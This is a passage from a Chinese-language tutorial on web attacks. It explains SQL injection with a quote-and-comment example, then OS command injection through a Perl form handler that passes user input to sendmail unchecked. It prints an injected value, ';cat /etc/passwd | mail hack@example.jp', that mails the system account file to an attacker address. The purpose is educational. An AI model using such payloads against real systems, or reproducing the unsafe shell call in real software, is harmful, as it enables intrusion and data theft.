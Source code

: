 &emsp;&emsp;结果跟 flag 的设定值无关，只取出满足author=&ldquo;上野宣&rdquo;条件所在行的数据，这样连那些尚未出版的书籍也一并显示出来了

![webAttack16](https://pic.xiaohuochai.site/blog/HTTP_webAttack16.png)

3、SQL注入攻击破坏SQL语句结构的案例

&emsp;&emsp;SQL注入是攻击者将SQL语句改变成开发者意想不到的形式以达到破坏结构的攻击

&emsp;&emsp;比如，在之前的攻击案例中，就会把author的字面值(程序中使用的常量)"上野宣'--"的字符串赋值给$q

![webAttack17](https://pic.xiaohuochai.site/blog/HTTP_webAttack17.png)

&emsp;&emsp;上图中颜色标记的字符串最开始的单引号(')表示会将author的字面值括起来，以到达第二个单引号后作为结束。因此，author的字面值就成了上野宣，而后面的--则不再属于author字面值，会被解析成其他的句法

&emsp;&emsp;本案例中的问题仅仅是把未出版书籍的条目也一同显示出来了。但实际发生SQL注入攻击时，很有可能会导致用户信息或结算内容等其他数据表的非法浏览及篡改，从而使用户遭受不同程度的损失

&nbsp;

【OS命令注入攻击】

&emsp;&emsp;OS命令注入攻击(OS Command Injection)是指通过Web应用，执行非法的操作系统命令达到攻击的目的。只要在能调用Shell函数的地方就有存在被攻击的风险

&emsp;&emsp;可以从Web应用中通过Shell来调用操作系统命令。倘若调用Shell时存在疏漏，就可以执行插入的非法OS命令

&emsp;&emsp;OS命令注入攻击可以向Shell发送命令，让Windows或Linux操作系统的命令行启动程序。也就是说，通过OS注入攻击可执行OS上安装着的各种程序

**OS注入攻击案例**

&emsp;&emsp;下面以咨询表单的发送功能为例，讲解OS注入攻击。该功能可将用户的咨询邮件按已填写的对方邮箱地址发送过去

![webAttack18](https://pic.xiaohuochai.site/blog/HTTP_webAttack18.png)

&emsp;&emsp;下面摘选处理该表单内容的一部分核心代码

<div>
<pre>my $adr = $q-&gt;param('mailaddress');
open(MAIL, "| usrsbin/sendmail $adr");
print MAIL "From: info@example.com\n"</pre>
</div>

&emsp;&emsp;程序中的open函数会调用sendmail命令发送邮件，而指定的邮件发送地址即$adr的值

&emsp;&emsp;攻击者将下面的值指定作为邮件地址

<div>
<pre>;cat /etc/passwd | mail hack@example.jp</pre>
</div>

&emsp;&emsp;程序接收该值，构成以下的命令组合

<div>
<pre>| usrsbin/sendmail ; cat /etc/passwd | mail hack@example.jp</pre>
</div>

&emsp;&emsp;攻击者的输入值中含有分号(;)。这个符号在OS命令中，会被解析为分隔多个执行命令的标记

&emsp;&emsp;可见，sendmail命令执行被分隔后，接下去就会执行 cat etcpasswd | mail hack@example.jp这样的命令了。结果，含有Linux账户信息etcpasswd的文件，就以邮件形式发送给了hack@example.jp

【HTTP首部注入攻击】
